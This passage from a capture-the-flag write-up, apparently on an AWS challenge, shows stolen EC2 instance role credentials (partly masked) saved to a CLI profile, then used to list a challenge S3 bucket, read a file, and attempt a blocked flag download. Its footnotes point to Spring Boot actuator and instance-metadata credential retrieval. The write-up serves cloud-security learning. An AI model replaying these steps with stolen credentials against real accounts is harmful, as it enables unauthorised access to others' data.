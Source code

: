 ```bash
# aws_secret_access_key = JZ8exxxx
# aws_session_token = IQoJxxxx
```
Validate it saved
```bash
aws sts get-caller-identity --profile jyw
# {
#     "UserId": "AROARK7LBOHXDP2J2E3DV:i-0bfc4291dd0acd279",
#     "Account": "092297851374",
#     "Arn": "arn:aws:sts::092297851374:assumed-role/challenge01-5592368/i-0bfc4291dd0acd279"
# }
```
Now im basically the EC2 instance in a way

## Step 6: Bucket time
Using the profile created above
```bash
aws s3 ls s3://challenge01-470f711 --profile jyw
#                            PRE private/
# 2025-06-18 17:15:24         29 hello.txt
aws s3 ls s3://challenge01-470f711 --profile jyw --recursive
# 2025-06-18 17:15:24         29 hello.txt
# 2025-06-16 22:01:49         51 private/flag.txt
```
I'm no genius. But I think the flag might be inside flag.txt. Let's grab it.
```bash
aws --profile jyw s3 cp s3://challenge01-470f711/private/flag.txt .
# fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```
Sad that I'm forbidden, however good to know my creds are working. Can I at least see hello.txt?
```bash
aws --profile jyw s3 cp s3://challenge01-470f711/hello.txt .
# download: s3://challenge01-470f711/hello.txt to ./hello.txt     
cat hello.txt 
# Welcome to the proxy server.
```
Yes I can.

## Step 7: How to get to the bucket 
Errors tells me a lot. 
We know what it is not: 
- Credential problem (I can list the bucket)
- General S3 permissions (I can read hello.txt)

So it has to be some block specifically related to that bucket/object. It could literally be any one of these:
- Bucket policies and IAM policies
- Amazon S3 ACL settings
- S3 Block Public Access settings
- Amazon S3 encryption settings
- S3 Object Lock settings
- VPC endpoint policies
- AWS Organizations policies
- CloudFront distribution access
- Access point settings[^7]


[^1]: [Spring: Spring Boot](https://docs.spring.io/spring-boot/index.html)
[^2]: [Spring: Health (health)](https://docs.spring.io/spring-boot/api/rest/actuator/health.html#page-title)
[^3]: [Spring: Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#page-title)
[^4]: [Spring: Mappings (mappings)](https://docs.spring.io/spring-boot/api/rest/actuator/mappings.html#page-title)
[^5]: [AWS: Use the Instance metadata Service to access instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-retrieval-examples-imdsv1)
[^6]: [AWS: Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html)
[^7]: [AWS: Troubleshoot access denied (403 Forbidden) errors in Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/troubleshoot-403-errors.html)